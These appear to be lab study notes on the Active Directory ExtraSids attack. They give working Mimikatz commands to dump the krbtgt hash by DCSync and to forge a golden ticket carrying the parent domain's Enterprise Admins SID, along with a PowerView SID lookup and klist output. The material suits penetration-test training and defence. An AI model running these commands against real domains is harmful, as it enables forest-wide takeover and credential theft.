 **ExtraSids Attack**:

This attack targets parent domains after compromising a child domain within the same Active Directory (AD) forest, exploiting the lack of SID Filtering.

By setting the `sidHistory` of a user in the child domain to include the SID of the Enterprise Admins group from the parent domain, attackers can gain administrative access to the entire forest.

The attack requires specific data:
- KRBTGT hash
- child domain's SID
- a target user name
- child domain's FQDN
- Enterprise Admins group's SID.

**Mimikatz**

Obtaining the KRBTGT Account's NT Hash using Mimikatz

```powershell
lsadump::dcsync /user:LOGISTICS\krbtgt
```

Obtaining Enterprise Admins Group's SID using Get-DomainGroup

```powershell
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

Creating a Golden Ticket with Mimikatz

```powershell
kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

Confirming a Kerberos Ticket is in Memory Using klist

```powershell
PS C:\htb> klist

Current LogonId is 0:0xf6462

Cached Tickets: (1)

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 3/28/2022 19:59:50 (local)
        End Time:   3/25/2032 19:59:50 (local)
        Renew Time: 3/25/2032 19:59:50 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```
